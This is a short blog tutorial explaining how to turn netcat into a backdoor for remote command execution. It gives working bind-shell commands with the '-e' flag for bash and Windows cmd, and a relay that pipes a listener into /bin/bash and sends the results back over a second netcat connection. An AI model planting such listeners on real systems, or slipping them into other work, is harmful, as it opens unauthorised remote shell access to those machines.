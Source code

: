 ```yaml
---
layout: post
title:  "Use 'nc' cli command as backdoor"
author: dave
date:   2023-12-20 15:30:59 +0200
categories: [Reversing, *nix Security]
tags: [Reversing, *nix Security, Networking]
published: true 
---
```


## Synopsis
Netcat (or nc) is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is one of the most powerful tools in the network and system administrators arsenal, and it as considered as a Swiss army knife of networking tools.

Netcat is cross-platform, and it is available for Linux, macOS, Windows, and BSD. You can use Netcat to debug and monitor network connections, scan for open ports, transfer data, as a proxy, and more.


### Use 'nc' as backdoor for remote cmd execution
#### The easy way
Earlier the **nc** command supported the **'-e'** flag which allowed the client to execute commands on the server and receive the output. This command flag may not be available anymore today on modern systems (specially macOS). But for completeness here is an example of how to use it.

**Server**

```bash
nc -l 9999 -e /bin/bash
```

On Windows

```bash
nc -l -p 6969 -e cmd
```
![](../assets/img/nc-backdoor/2023-12-20-NC-Setup-Server-Windows-NC-E-sized.png)

**Client**

```bash
nc 127.0.0.1 9999 ls
```

On macOS

```bash
nc 192.168.64.2 6969
```

![](../assets/img/nc-backdoor/2023-12-20-NC-Setup-Client-macOS-E-sized.png)

Output on client will be something like:

```bash
Applications
Desktop
Documents
Downloads
Movies
Music
Pictures
...
```

#### The 'old fashioned' way
With some (newer) versions of **nc** or on macOS for example you don't have the option of using the **-e** flag for executing commands on the target. But don't despair just yet, there is another way. You can use **nc** in another way to execute commands on the target and even get response of the executed commands. It's just a little more fingerworks to do.

The basic setup involves a **server** where you accept commands just the way you would do with the **-e** command, but as long as you cannot use this flag, you will have to forward the output to the interpreter by your self. This can be done with:

```bash
nc -l 6969 | /bin/bash
```
This command on the server side will forward all incomming messages to _/bin/bash_ and execute it, so far so well! But what is with the response? If you setup the connection between server and client like this, the client will get no response what so ever from the server and that might a be little bit poor. So what can we do?

What we can do, is to use the server as some kind of relay to execute the incomming command and then forward the result to another nc connection back to the client. So how will the setup Look like? First you setup a terminal on the client with the following command listening for results:

```bash
nc -l 6968
```

Then you setup the server with the relay listening for incomming commands, executeing them and forwardening the result back to the client with:

```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

All that is left to do now is to setup a client connection to the server from where you can send commands with the following:

```bash
nc 127.0.0.1 6969
```

Now you can send commands from the client to the server and receive the results of the executed commands in the second terminal on the client.

### Overview

##### Console on CLIENT for output
```bash
nc -l 6968
```

##### Console on SERVER
```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

##### Console on CLIENT for sending commands
```bash
nc 127.0.0.1 6969
```

## Credits
- [_linuxhandbook.com_](https://linuxhandbook.com/nc-command/){:target="_blank" rel="noopener"}
- [_linuxize.com_](https://linuxize.com/post/netcat-nc-command-with-examples/){:target="_blank" rel="noopener"}
- [_unix.stackexchange.com_](https://unix.stackexchange.com/questions/352490/is-nc-netcat-on-macos-missing-the-e-flag){:target="_blank" rel="noopener"}